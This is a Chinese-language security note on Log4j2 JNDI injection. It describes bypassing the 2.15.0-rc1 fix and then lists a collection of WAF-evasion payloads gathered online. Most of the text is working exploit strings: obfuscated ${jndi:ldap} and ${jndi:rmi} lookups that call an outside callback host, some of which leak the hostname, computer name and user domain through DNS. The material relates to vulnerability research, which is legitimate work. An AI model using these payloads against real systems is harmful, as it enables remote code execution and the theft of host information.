 
# RC1 绕过
参考文章: [Apache Log4j2从RCE到RC1绕过](https://xz.aliyun.com/t/10649#toc-2), 该版本中走到最后`lookup`操作时, 只要让`lookup`方法在执行的时候抛个异常就可以了(前提是开启`lookup`), 将`payload`修改成以下的形式:

```java
${jndi:ldap://xxx.xxx.xxx.xxx:xxxx/ ExportObject}
```

# Waf 绕过
这里收集了一点网上的`Waf`绕过`Payload`:

```text
${jndi:ldap://127.0.0.1:1389/ badClassName} 

${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${::-j}ndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${jndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}

${${lower:jndi}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${lower:${lower:jndi}}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${upper:jndi}:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${upper:j}${upper:n}${lower:d}i:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${upper:j}${upper:n}${upper:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}

${${upper::-j}${upper::-n}${::-d}${upper::-i}:${upper::-l}${upper::-d}${upper::-a}${upper::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.${env:COMPUTERNAME}.${env:USERDOMAIN}.${env}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk
```


# 参考
 - [浅谈 Log4j2 漏洞](https://tttang.com/archive/1378/)
 - [log4j2 JNDI 注入漏洞分析](https://www.cnpanda.net/sec/1114.html)
